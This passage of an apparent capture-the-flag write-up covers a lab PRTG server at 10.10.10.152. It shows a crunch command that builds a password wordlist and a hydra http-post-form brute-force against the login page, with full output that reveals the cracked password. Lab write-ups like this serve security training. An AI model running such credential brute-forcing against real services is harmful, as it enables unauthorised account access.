 ![Credentials](./credentials.png "Credentials")

However, using these credentials we are still unable to login and receive invalid credential error message. The hydra scan was unable to identify the correct credentials till now, so I stopped it and tried to create a wordlist from the password to use with hydra.

### **Custom Wordlist**
Using crunch, I generated a wordlist with the last two digits changing for different years.
```
$ crunch 13 13 -t PrTg@dmin20%% -l PrTg@dmin20aa -o ./password.txt                                                                                                 1 ⨯
Crunch will now generate the following amount of data: 1400 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100 

crunch: 100% completed generating output
```
### **Bruteforce II**
```
$ hydra -T4 -l prtgadmin -P password.txt 10.10.10.152 http-post-form "/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again\!" 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-11 20:16:27
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100 login tries (l:1/p:100), ~25 tries per task
[DATA] attacking http-post-form://10.10.10.152:80/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again!
[80][http-post-form] host: 10.10.10.152   login: prtgadmin   password: PrTg@dmin2019
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-11 20:16:42
```
This time hydra identifies the correct credentials and we are able to login to the website.

![Login](./logged_in.png "Logged In!!")
